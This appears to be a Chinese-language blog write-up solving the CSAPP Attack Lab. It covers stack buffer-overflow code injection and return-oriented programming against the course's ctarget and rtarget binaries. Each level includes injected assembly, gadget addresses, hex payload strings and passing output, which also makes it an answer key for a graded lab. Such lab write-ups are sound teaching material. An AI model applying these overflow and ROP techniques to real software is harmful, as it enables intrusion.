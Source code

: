 ## 前期准备
和Bomb-lab一样，我们反汇编两个可执行文件，得到汇编代码。
``` bash
$ objdump -d ctarget > ctarget.asm
$ objdump -d rtarget > rtarget.asm
```
## PART I: Code Injection Attacks
### level 1
这一level和书上3.10.3的例子是一样的，由于没有进行目标缓冲区的大小界定，可能会冲击掉栈的值，而这题的目标就是让我们在getbuf返回的时候调用的是touch1函数。
几个主要的函数如下：
``` c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

根据反汇编，getbuf函数如下，其申请了0x28大小的栈。
``` x86asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
而Gets函数基本上是从标准输入读入字符串到指定的地址，具体的代码就不粘贴了，大家可以参考反汇编的代码，和书本上的gets函数基本差不多（就多了一个存储读入的字符的功能，save_char和save_term）。

可以发现，要想冲击掉getbuf函数的返回地址，首先我们需要填满0x28的缓冲区，然后将touch1的地址填入到返回地址中，而touch1的地址是4017c0，根据小端法，在之后填充`c0 17 40`，我们填入以下数据即可，将以下数据写入answer文件夹下level1文件中：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```
然后我们试一试（-q是取消向cmu的服务器发送成绩，我们是自学，自然访问不了其服务器）：
``` bash
$ ./hex2raw -i answer/level1 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```
用图表示level1如下所示：
<div align=center><img src="/img/attack-lab-ph1-level1.jpg" width = 70% height = 70% /></div>

### level 2
这个阶段的解题思路和上面是类似的，我们还是需要拦截程序流，跳转到touch2函数，但是还需要满足touch2的输入val=cookie（0x59b997fa），如下：
``` c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
  	   printf("Touch2!: You called touch2(0x%.8x)\n", val);
  	   validate(2);
    } else {
  	   printf("Misfire: You called touch2(0x%.8x)\n", val);
  	   fail(2);
    }
    exit(0);
}
```
思路如下：
* 将正常的返回地址设置为注入代码的地址，本次直接从栈顶注入，所以将返回地址设置为`%rsp`的值；
* 将cookie值移入到`%rdi`；
* 想要调用touch2，又不能直接使用call、jmp指令，只能使用ret改变当前指令寄存器的只想地址，在此之前将touch2的地址压栈即可。

注入代码为：
``` x86asm
/* level2-inject.s */
movq $0x59b997fa, %rdi  # set input val cookie
pushq $0x4017ec         # touch2 address
ret
```
执行以下操作
``` x86asm
$ gcc -c level2-inject.s
$ objdump -d level2-inject.o

level2-inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq    
```
接下来，利用gdb，找到调用getbuf时`%rsp`的地址。
``` bash
$ gdb ctarget
(gdb) b getbuf
Breakpoint 1 at 0x4017a8
(gdb) r -q
Starting program: /home/topeet/smb_share/workspace/CSAPP/CSAPP-Labs/labs/attack-lab/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, 0x00000000004017a8 in getbuf ()
(gdb) stepi 2
0x00000000004017af in getbuf ()
(gdb) i registers rsp
rsp            0x5561dc78	0x5561dc78
(gdb) 
```
所以我们填充注入代码如下，将以下数据写入answer文件夹下level2文件中：
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```
然后执行：
``` bash
$ hex2raw -i answer/level2 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 
```
用图表示level2如下所示，我们应该庆幸作者预留了40个byte大小的位置，因为当开始执行从栈顶注入的代码时，栈指针为`0x5561dca0`，此时执行`pushq $0x4017ec`时，栈指针会变为`0x5561dc98`，如果预留了小于24个字节大小时，执行`pushq $0x4017ec`时会冲掉`0x5561dc80`，就无法到`retq`语句了。
<div align=center><img src="/img/attack-lab-ph1-level2.jpg" width = 70% height = 70% /></div>

### level 3
这个level考察的依然是代码注入，其函数如下：
``` c
void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}

/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
还是需要调用touch3，但是这次传入的参数是一个字符串，同时函数内部用了另外一个函数进行比较，这次要比较的是`"59b997fa"`这个字符串。

但是我们不能将字符串放在getbuf的栈帧，因为hexmatch函数会开辟110个字节的栈帧大小，肯定会冲掉原栈帧，所以我们需要将字符串放在安全的地址，也就是test的栈帧。我们知道，test函数的返回地址是`0x5561dca0`，那么其运行时栈顶地址就是`0x5561dca8`。我们要做的就是把字符串存在这个地址，并将这个地址送到%rdi中，然后将touch3的首地址压栈，虽然返回，所以我们注入的汇编代码就是：
``` x86asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```
执行以下操作
``` bash
$ gcc -c level3-inject.s 
$ objdump -d level3-inject.o 

level3-inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0: 48 c7 c7 a8 dc 61 55  mov    $0x5561dca8,%rdi
   7: 68 fa 18 40 00        pushq  $0x4018fa
   c: c3                    retq   
```
之后我们可以将字符串`"59b997fa"`转换为ascii的十六进制表示`35 39 62 39 39 37 66 61 00`，千万不能忘了最后`'\0'`表示字符串结尾。

所以我们填充注入代码如下，将以下数据写入answer文件夹下level3文件中：
```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```
结果如下所示：
``` bash
$ ./hex2raw < answer/level3 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
用图表示如下所示：
<div align=center><img src="/img/attack-lab-ph1-level3.jpg" width = 70% height = 70% /></div>

## PART II: Return-Oriented Programming
代码注入在这个部分可能就不好使了，因为现代编译器和操作系统实现了许多机制，以避免遭受缓冲区溢出的攻击，如writeup所说，其采取了以下方式去阻挠代码注入攻击：
1. 栈随机化：栈的位置在每次运行时都有变化，使得无法确定注入的代码将位于何处；
2. 限制可执行代码区域：会将保存在栈的内存部分标记为不可执行，因此将程序注入到栈内，也将会爆出segmentation fault。

然而，我们可以通过执行现有代码而不是注入新代码来在程序中完成有用的事情，这种方式成为ROP(Return-Oriented Programming)。其策略是在现有程序中标识由一个或多个指令以及指令ret组成的字节序列，这种段称为*gadget*，如下图所示：
<div align=center><img src="/img/gadget.JPG" width = 50% height = 50% /></div>

后续writeup还举了一个例子，感兴趣的同学可以去看看，我们直接跳到level2。

### level 2
这题和第一部分的level2要求是一样的，就是执行touch2，并且根据writeup上的提示：
1. 所需的*gadgets*在start_farm到mid_farm之间；
2. 只需要两个*gadget*；
3. popq指令可以将数值从栈中弹出数据，所以攻击字符串应该是地址和数据的组合。

思路和之前还是一样：
1. 将cookie放到%rdi，这需要mov命令；
2. 但是所给的mov指令只有从一个寄存器到另一个寄存器的，没有直接mov内存（栈）到寄存器的；
3. 所以需要pop指令将栈中cookie弹出到一个寄存器，然后再用mov指令移动到%rdi中；
4. 或者说，我们能直接pop将cookie弹出到%rdi也行；

首先观察下表，因为在start_farm到end_farm之间没有找到`5f`这条指令，所以排除上述第4条可能性。
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表A</div>
  <br>
  <img src="/img/popq-gadgets.JPG" width = 70% height = 70% />  
</div>

观察下表，能mov到%rdi的指令是最后一列：
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表B</div>
  <br>
  <img src="/img/movq-gadgets.JPG" width = 100% height = 100% />
</div>

经过排查，只有满足以下指令的`48 89 c7`和`58`字段被找到：
``` x86asm
popq %rax       # 58
movq %rax, %rdi # 48 89 c7
```
其中让人满意的分别是，因为`90`指令是`nop`，没有操作。
``` x86asm
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3                    retq

00000000004019c3 <setval_426>:
  4019c3: c7 07 48 89 c7 90     movl   $0x90c78948,(%rdi)
  4019c9: c3                    retq

00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3

00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3
```

我们给出四种答案的填充，分别验证如下：
1. 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-1 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

2. 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-2 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
3.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-3 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
4.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-4 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

其实就是排列组合两行地址，图我们就不画那么多了，针对最后一种情况画个图，如下所示：
<div align=center><img src="/img/attack-lab-ph2-level2.jpg" width = 70% height = 70% /></div>

### level 3
在这一阶段中，我们需要做的就是把字符串的起始地址传送到%rdi，然后调用touch3函数。
因为每次栈都是随机的，所以无法直接用地址来索引字符串的位置，只能用栈顶地址+偏移量来索引字符串的起始地址。而从farm中我们可以找到一个*gadget*来实现两个寄存器值的相加`lea (%rdi,%rsi,1),%rax`。

解题思路：
1. 首先获取%rsp的值，传送到%rdi；
2. 其次获取字符串的偏移量，传送到%rsi；
3. 调用`lea (%rdi,%rsi,1),%rax`，将字符串首地址传送到%rax；
4. 利用mov指令将%rax传送到%rdi；
5. 调用touch3函数。

步骤如下：
1 获取%rsp的值：
参考表B，在farm中寻找到的符合源操作寄存器为%rsp的只有指令`movq %rsp, %rax`的指令字节`40 89 e0`，符合的有下图所示的两种，所以第一步的gadget地址为：0x401a06或者0x401aad。
``` x86asm
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3                    retq

0000000000401aab <setval_350>:
  401aab: c7 07 48 89 e0 90     movl   $0x90e08948,(%rdi)
  401ab1: c3                    retq
```

2 将%rax的内容传送到%rdi：
`movq %rax, %rdi`的指令字节`40 89 c7`，符合的有两个，所以第二步的地址为：0x4019a2或者0x4019c5。
``` x86asm
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3                    retq

00000000004019c3 <setval_426>:
  4019c3: c7 07 48 89 c7 90     movl   $0x90c78948,(%rdi)
  4019c9: c3 
```

3 利用pop指令弹出偏移量：
查询表B，只有`popq %rax`的指令`58`符合要求，符合的有以下两个，所以第三步的地址为：0x4019ab或者0x4019cc。
``` x86asm
00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3

00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3
```

4 将%rax内容传送到%rsi：
查询表B，`mov %rax, %rsi`指令为`48 89 c6`，这个在farm中不存在，可以发现，以%rax为源寄存器的movq指令，只有`mov %rax, %rdi`，但是此时rdi的值已经是栈地址了，所以不能动，那只能打movl的主意了。
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表C</div>
  <br>
  <img src="/img/movl-gadgets.JPG" width = 100% height = 100% />
</div>

  1) 如上表所示，在farm中，以%eax为源寄存器的操作码，且不冲击%edi的只有`movl %eax, %edx`的操作码`89 c2`了，所以满足这一小步的地址：0x4019dd。
``` x86asm
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3
```
  2) 不能忘记我们的目标是%rsi/%esi，再查表B和C，以%rdx/%edx为源的操作码只有`movl %edx, %ecx`的操作码`89 d1`，符合的地址：0x401a70（这里后面跟着字节91，想必也是无用的字节？）。
``` x86asm
0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3
```
  3) 再查表B和C，以%rcx/%ecx为源的操作码只有`movl %ecx, %esi`的操作码`89 ce`，且目标正是%esi，符合的地址：0x401a13。
``` x86asm
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3
```

5 调用`lea (%rdi,%rsi,1),%rax`，将字符串首地址传送到%rax
这一步即直接使用以下地址即可：0x4019d6。
``` x86asm
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq   
```

6 利用mov指令将%rax传送到%rdi（同步骤2）

7 计算偏移量
执行步骤1时，%rsp所指位置已经指向了步骤2的位置，根据以上分析，从步骤三开始需要指令地址占据栈区的有6个，偏移量占据一行，touch3占据一行，所以中间至少需要隔绝8行（一行64位），然后将字符串首地址放在之上，即偏移量为`9 * 8 = 72`，所以填写十六进制0x48。

根据以上分析，我们可以画出一种解法的图如下所示：
<div align=center><img src="/img/attack-lab-ph2-level3.jpg" width = 70% height = 70% /></div>

所以我们填充的数字如下所示：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```
测试结果如下：
``` bash
$ ./hex2raw -i answer/part2-level3 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
当然也有其他的一些正确结果，根据以上步骤里的随机组合就好了，这里就不验证了。

## 总结
真个lab做下来，受益良多，对于栈有了更深的理解，认识到了缓冲区溢出可以造成的严重后果，写出更安全的代码需要注意的点。
